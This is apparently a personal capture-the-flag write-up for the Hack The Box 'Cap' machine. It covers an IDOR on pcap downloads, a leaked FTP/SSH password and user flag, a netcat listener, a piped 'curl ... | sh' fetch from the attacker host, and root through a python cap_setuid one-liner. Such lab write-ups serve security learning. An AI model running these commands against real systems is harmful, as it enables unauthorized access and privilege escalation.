 Link to box: https://app.hackthebox.com/machines/Cap

IP address of target: 10.10.10.245

First, let do the port scanning
Result:

```
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

Let check the website:
![alt text](image.png)

![alt text](image-1.png)

Let check other scans by change the id after `/data/`.
When I change the id and Enter, the website redirect me to the dashboard. But I click the Security Snapshot, it route me to the page I want. It's scanning results of other users.

Let check several scanning results.

First with id 1. It's empty
Id 2: just 4 TCP packets. Don't see any interesting thing.

I'm confused with the website url. I thought I must chane the id after `/data` in the web url. But no.

The actual download pcap url is of Download button.

I must check the web source to find the url of the pcap file.

Use this command to download pcap file:
```bash
wget http://10.10.10.245/download/0 -O 0.pcap
```

Filter with http.
Don't see any interest thing in 0.pcap. I realize that there's a form to login.

Let check with ftp:
user: nathan
password: Buck3tH4TF0RM3!

Let login via ssh: successfully.
Got the user flag: f490ca853c4b824accceaafc9de451e7

```bash
sudo -l
Sorry, user nathan may not run sudo on cap.
```

Let check the suid (Comment: linpeas.sh script will help me with this)
```bash
find / -perm -4000 2>/dev/null
```

Results:
```
/usr/bin/umount         NO
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/at
/usr/bin/chsh
/usr/bin/su
/usr/bin/fusermount
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/snap/snapd/11841/usr/lib/snapd/snap-confine
/snap/snapd/12398/usr/lib/snapd/snap-confine
/snap/core18/2066/bin/mount
/snap/core18/2066/bin/ping
/snap/core18/2066/bin/su
/snap/core18/2066/bin/umount
/snap/core18/2066/usr/bin/chfn
/snap/core18/2066/usr/bin/chsh
/snap/core18/2066/usr/bin/gpasswd
/snap/core18/2066/usr/bin/newgrp
/snap/core18/2066/usr/bin/passwd
/snap/core18/2066/usr/bin/sudo
/snap/core18/2066/usr/lib/dbus-1.0/dbus-daemon-launch-helper        NO
/snap/core18/2066/usr/lib/openssh/ssh-keysign       NO
/snap/core18/2074/bin/mount
/snap/core18/2074/bin/ping
/snap/core18/2074/bin/su
/snap/core18/2074/bin/umount
/snap/core18/2074/usr/bin/chfn
/snap/core18/2074/usr/bin/chsh
/snap/core18/2074/usr/bin/gpasswd
/snap/core18/2074/usr/bin/newgrp
/snap/core18/2074/usr/bin/passwd
/snap/core18/2074/usr/bin/sudo
/snap/core18/2074/usr/lib/dbus-1.0/dbus-daemon-launch-helper        NO
/snap/core18/2074/usr/lib/openssh/ssh-keysign       NO
```

Found this vulnerability with snap-confine:
https://github.com/deeexcee-io/CVE-2021-44731-snap-confine-SUID

Open http server on my Kali Linux machine:
```bash
python3 -m http.server 80
```

set up netcat listening:
```bash
nc -lvnp 4447
```

The result when execute the exploit.sh:
```
Vulnerable version found: 2.48.3 at /usr/lib/snapd/snap-confine
Vulnerable version found:  at /snap/snapd/11841/usr/lib/snapd/snap-confine
Vulnerable version found: 2.51.1 at /snap/snapd/12398/usr/lib/snapd/snap-confine
Performing actions with a vulnerable version...
Chosen vulnerable version: 2.48.3
ln: failed to create hard link './snap-confine' => '/usr/lib/snapd/snap-confine': Operation not permitted
aa-exec: ERROR: Failed to execute "./snap-confine": No such file or directory
```

The vulnerable version found -> maybe I need to modify a bit.

```bash
$ ln -i /usr/lib/snapd/snap-confine ./
ln: failed to create hard link './snap-confine' => '/usr/lib/snapd/snap-confine': Operation not permitted
$ ln -i /snap/snapd/11841/usr/lib/snapd/snap-confine ./
ln: failed to create hard link './snap-confine' => '/snap/snapd/11841/usr/lib/snapd/snap-confine': Invalid cross-device link
$ ln -i /snap/snapd/12398/usr/lib/snapd/snap-confine ./
ln: failed to create hard link './snap-confine' => '/snap/snapd/12398/usr/lib/snapd/snap-confine': Invalid cross-device link
```

Three files cannot be created a hard link. All three files are wrong answer. The hint said I should run the linPeas.

```bash
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh  download to my Kali Linux.
```

Execute on target machine:
```bash
curl -L http://10.10.14.96/linpeas.sh | sh
```

This is information I need:
```
Files with capabilities (limited to 50):
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

Another result from getcap command:
```
getcap -r / 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

The `/usr/bin/python3.8` is the vulnerable binary.

Follow this instruction: https://steflan-security.com/linux-privilege-escalation-exploiting-capabilities/

Execute this command to get root privileges:
```bash
/usr/bin/python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

Exploited Cap machine successfully.